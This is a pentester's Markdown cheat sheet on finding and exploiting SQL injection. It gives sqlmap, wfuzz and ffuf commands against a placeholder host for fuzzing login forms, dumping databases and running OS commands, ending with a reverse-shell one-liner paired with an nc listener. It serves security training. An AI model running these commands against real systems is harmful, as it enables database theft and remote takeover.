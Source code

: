 # SQL Injection

## Questions to ask yourself
  *  What inputs of the web application are likely to be part of a query?
  *  Do any behaviors of the web app imply DBMS function calls?

## Things to remember
  *  Injection syntax depends on the DBMS under the hood: **Google everything**
      *  Error outputs can reveal **A LOT** about the underlying DBMS
  *  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) for various SQL injection techniques
  *  Watch for filters such as case-sensitivity, whitespace removal, blacklists, etc.

## Useful tools
  *  [`sqlmap`](https://sqlmap.org/) for various SQLi interactions
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for SQLi

## Fuzzing for SQL injection
  *  `sqlmap` is the go-to for SQLi fuzzing
      *  Specify files containing request text for HTTP POST fuzzing
      *  Crawl form data to automatically generate HTTP POST fuzz
      *  See [`hacktricks`](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap) page for more precise options
  *  `wfuzz` and `ffuf` for applying lists of SQLi techniques
      *  Consider applying HTTP headers/POST data matching inital browsing requests
      *  `ffuf` can parse requests from text files, easy to handle more complex POST requests

```
sqlmap -u 'http://10.0.0.1/login'
sqlmap -r http-post-request.txt
sqlmap -u http://10.0.0.1/login --forms -p username --not-string incorrect --batch
```

```
wfuzz -w /path/to/sqli.txt 'http://10.0.0.1/login?username=FUZZ&password=test'
wfuzz -w /path/to/sqli.txt -d 'username=FUZZ&password=test' 'http://10.0.0.1/login'
```

```
ffuf -request req.txt --request-proto http -w /path/to/sqli.txt -v
```

## Automated DB dumping
  *  `sqlmap` for automatically dumping data from vulnerable applications

```
sqlmap -r http-post-request.txt --current-db
sqlmap -u 'http://10.0.0.1/login' --current-user
sqlmap -u 'http://10.0.0.1/login' -D exampleDB --tables
```

## Automated code execution
  *  `sqlmap` for automatically attempting code execution via SQLi
      *  Extended help page `-hh` for detailed OS access options
  *  Headless/batch options for code exec one-liners

```
sqlmap -u 'http://10.0.0.1/login' --os-cmd='cmd /c calc.exe'
sqlmap -r http-post-request.txt --os-cmd='[POWERSHELL BASE64 REVERSE SHELL]' --answers='follow=Y' --batch > /dev/null & nc -nvlp 80
```
